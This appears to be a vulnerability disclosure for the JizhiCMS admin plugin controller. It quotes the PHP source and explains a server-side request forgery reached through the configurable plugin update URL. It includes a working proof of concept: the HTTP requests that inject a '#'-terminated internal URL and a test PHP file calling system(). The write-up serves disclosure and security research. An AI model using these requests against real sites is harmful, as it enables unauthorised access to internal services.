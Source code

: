 ### Vulnerable File: `app\admin\c\PluginsController.php` Key Code Analysis

```php
class PluginsController extends CommonController
{
    public function index(){
        // Check if the update URL is accessible
        $webapi = $this->webconf['plugins_config'];
        if(!$webapi){
            $webapi = 'http://api.jizhicms.cn/plugins.php';
            if(!M('sysconfig')->find(['field'=>'plugins_config'])){
                M('sysconfig')->add(['title'=>JZLANG('Plugin Configuration'),'field'=>'plugins_config','type'=>2,'data'=>$webapi,'typeid'=>0]);
                setCache('webconfig',null);
            }
        }
        if($this->frparam('set')){
            if($this->admin['isadmin']!=1){
                JsonReturn(['code'=>1,'msg'=>JZLANG('Only super administrators can configure this!')]);
            }
            $webapi = $this->frparam('webapi',1);
            M('sysconfig')->update(['field'=>'plugins_config'],['data'=>$webapi]);
            setCache('webconfig',null);
            JsonReturn(['code'=>0,'msg'=>'Configuration successful!']);
        }
        $this->webapi = $webapi;
        $api = $webapi.'?version='.$this->webconf['web_version'];
        $ch = curl_init();
        $timeout = 5;
        curl_setopt($ch,CURLOPT_FOLLOWLOCATION,1);
        curl_setopt($ch,CURLOPT_RETURNTRANSFER,1);
        curl_setopt($ch, CURLOPT_HEADER, false);
        curl_setopt($ch, CURLOPT_CONNECTTIMEOUT, $timeout);
        curl_setopt($ch,CURLOPT_URL,$api);
        $res = curl_exec($ch);
        $httpcode = curl_getinfo($ch,CURLINFO_HTTP_CODE);
        curl_close($ch);
        if($httpcode==200){
            $isok = true;
            $res1 = json_decode($res,1);
            if($res1['code']!=0){
                $isok = false;
            }else{
                $allplugins = $res1['data'];
            }
        }else{
            $isok = false;
        }
    }
}
```

### Vulnerability Analysis

The code allows setting the `webapi` variable through the following block:
```php
if($this->frparam('set')){
    if($this->admin['isadmin']!=1){
        JsonReturn(['code'=>1,'msg'=>JZLANG('Only super administrators can configure this!')]);
    }
    $webapi = $this->frparam('webapi',1);
    M('sysconfig')->update(['field'=>'plugins_config'],['data'=>$webapi]);
    setCache('webconfig',null);
    JsonReturn(['code'=>0,'msg'=>'Configuration successful!']);
}
```

Later, the `webapi` variable is concatenated with `?version=`, making it possible to inject a `#` character to comment out the appended parameters:
```php
$this->webapi = $webapi;
$api = $webapi.'?version='.$this->webconf['web_version'];
```

### Exploitation

To exploit the vulnerability, a local web server is set up to simulate an internal web service:

1. Start a local web server:
   ```bash
   php -S 127.0.0.1:8999
   ```

2. Create a `2.php` file on the server:
   ```php
   <?php
   system('calc');
   ```
   This will execute the `calc` (calculator) command upon access.

3. Send a request to set the `webapi` variable:
   ```http
   POST /index.php/admins/Plugins/index.html

   set=1&webapi=http://127.0.0.1:8999/2.php%23
   ```
   ![](./public/4-1.png)

4. Trigger the SSRF vulnerability by accessing the following URL:
   ```http
   GET /index.php/admins/Plugins/index.html
   ```

### Result

As shown below, the local web service successfully receives the request, and the `2.php` file is executed, launching the calculator application (`calc`):
![](./public/4-2.png)